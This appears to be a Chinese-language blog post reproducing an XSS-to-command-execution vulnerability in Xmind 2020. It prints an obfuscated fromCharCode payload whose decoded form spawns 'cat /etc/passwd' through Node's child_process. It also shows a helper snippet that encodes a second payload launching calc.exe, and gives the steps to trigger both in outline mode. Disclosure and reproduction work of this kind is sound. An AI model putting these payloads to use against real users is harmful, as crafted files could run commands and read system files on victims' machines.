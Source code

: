 # xmind2020存在XSS漏洞可导致命令执行


### 漏洞描述

Xmind2020 存在XSS漏洞，攻击者可利用该漏洞进行命令执行。由于软件允许用户以文件形式或自定义标题标题的形式存储JS代码，攻击者可以发送带有恶意JS代码的文件。用户打开文件后，从而执行攻击者预先设定好的命令。





### 漏洞复现

测试环境：ubuntu18.04、xmind2020



**1.打开xmind后，在思维导图模式下输入以下Payload：**

```javascript
<img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,99,111,110,115,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,99,111,110,115,116,32,99,97,116,32,61,32,115,112,97,119,110,40,34,99,97,116,34,44,32,91,34,47,101,116,99,47,112,97,115,115,119,100,34,93,41,59,10,99,97,116,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,10,125,41,59,60,47,115,99,114,105,112,116,62))>
```

解码后数据即为：

```javascript
//Decode Payload
<script>
const { spawn } = require("child_process");
const cat = spawn("cat", ["/etc/passwd"]);
cat.stdout.on("data", data => {
    alert(`stdout: ${data}`);
});</script>
```

![插入payload](http://image.xpshuai.cn/xmind_payload1.png)



补充知识：

```javascript
// 1.str转unicode序列
var c = "<script>\nvar Process = process.binding('process_wrap').Process;\nvar proc = new Process();\nproc.onexit = function(a,b) {};\nvar env = process.env;\nvar env_ = [];\nfor (var key in env) env_.push(key+'='+env[key]);\nproc.spawn({file:'c:\\windows\\system32\\calc.exe',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});\n</script>"

var codeArr = [];
for(var i=0;i<c.length;i++){
    codeArr.push(c.charCodeAt(i));
}
console.log(codeArr);



// 2.unicode序列还原为str
var n = String.fromCharCode(60, 115, 99, 114, 105, 112, 116, 62, 10, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 10, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 10, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 10, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 10, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 10, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 10, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 99, 58, 92, 119, 105, 110, 100, 111, 119, 115, 92, 115, 121, 115, 116, 101, 109, 51, 50, 92, 99, 97, 108, 99, 46, 101, 120, 101, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 10, 60, 47, 115, 99, 114, 105, 112, 116, 62);

console.log(n);
```



**2.点击大纲。在大纲模式下，选中payload，按下Ctrl+C快捷键触发该Payload，执行`calc`命令。**

![执行成功](http://image.xpshuai.cn/xmind_attack_ok.png)



### 修复建议

该漏洞在大纲模式下触发，Xmind 2020的使用者，谨慎打开Xmind的大纲模式。





### 参考

[Xmind 2020 - XSS to RCE - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/49827)

[漏洞情报 | Xmind 2020 XSS漏洞导致命令执行 (qq.com)](https://mp.weixin.qq.com/s/JCj4yPN5ORGt1WGc7gpuDQ)

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/xmind2020%E5%AD%98%E5%9C%A8xss%E6%BC%8F%E6%B4%9E%E5%8F%AF%E5%AF%BC%E8%87%B4%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

